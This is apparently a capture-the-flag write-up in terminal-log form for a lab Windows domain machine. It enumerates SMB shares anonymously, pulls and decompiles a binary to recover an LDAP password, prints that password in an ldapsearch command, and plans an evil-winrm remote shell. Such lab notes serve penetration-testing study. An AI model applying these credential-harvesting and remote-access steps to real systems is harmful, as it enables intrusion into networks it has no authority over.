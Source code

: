 **Lame** 
──(root㉿kali)-[/home/kali]
└─# smbclient -L 10.10.11.227 -N
do_connect: Connection to 10.10.11.227 failed (Error NT_STATUS_HOST_UNREACHABLE)
                                                                                                                                 
┌──(root㉿kali)-[/home/kali]
└─# smbclient -L 10.10.11.174 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.174 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

  
┌──(root㉿kali)-[/home/kali]
└─# smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022

		4026367 blocks of size 4096. 967496 blocks available
                                                           
#download suspicios file   
smb: \> get UserInfo.exe.zip  

#create sperate folder for extaract
──(root㉿kali)-[/home/kali]
└─# unzip UserInfo.exe.zip 
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config 

#move this UserInfo.exe to windows machine

#In windows machine

#download dnspy from >> https://github.com/dnSpy/dnSpy/releases
#open UserInfo.exe in dnspy
#anylze for any ldap passwords
#we got encryted password along with encryption techniq
#based on encryted techniq create script python script to decrypt password



┌──(blackdevil㉿kali)-[~/htb-writeups]
└─$ ldapsearch -x -H ldap://10.10.11.174 \
-D 'support\ldap' \
-w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b 'dc=support,dc=htb' \
"(cn=support)"

#port 5985 is open so we can possibly get intrective shell we will tool :evil-winrm
#Evil-WinRM is a post-exploitation tool used by attackers or penetration testers to get an interactive PowerShell shell on a remote Windows machine using WinRM (Windows Remote Management).





